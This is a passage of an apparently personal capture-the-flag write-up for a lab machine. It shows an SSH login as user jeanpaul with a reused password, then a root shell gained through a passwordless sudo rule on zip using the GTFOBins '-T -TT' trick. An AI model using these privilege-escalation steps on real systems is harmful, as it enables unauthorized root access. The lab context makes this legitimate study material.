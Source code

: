 but sadly I don't know `jeanpaul` password
so I watch the walkthrough then this is the critical thinking how make the relationship that `jeanpaul` love java from `todo.txt` and `save.zip` which password is `java101` but I try with java101 it does not work so I go back to thing about another password which is I saved from `boltCMS` database config, so the password might be `I_love_java` and finally it's the correct password

```
parrot# ssh -i id_rsa jeanpaul@192.168.1.113
Enter passphrase for key 'id_rsa': 
Linux dev 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jun  2 05:25:21 2021 from 192.168.10.31
jeanpaul@dev:~$ 
```

## Privilege escalation
After I logged on `jeanpaul` account I want to upgrade to root.

First I check `sudo -l`

```
jeanpaul@dev:~$ sudo -l
Matching Defaults entries for jeanpaul on dev:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jeanpaul may run the following commands on dev:
    (root) NOPASSWD: /usr/bin/zip
jeanpaul@dev:~$ 
```

OK I got the way to escalate to root account

I go to [gtfobins with sudo zip](https://gtfobins.github.io/gtfobins/zip/#sudo) and check zip technique

```
jeanpaul@dev:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# whoami
rm: missing operand
Try 'rm --help' for more information.
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root 
# ls
flag.txt
# cat flag.txt	
Congratz on rooting this box !
```

Got the flag
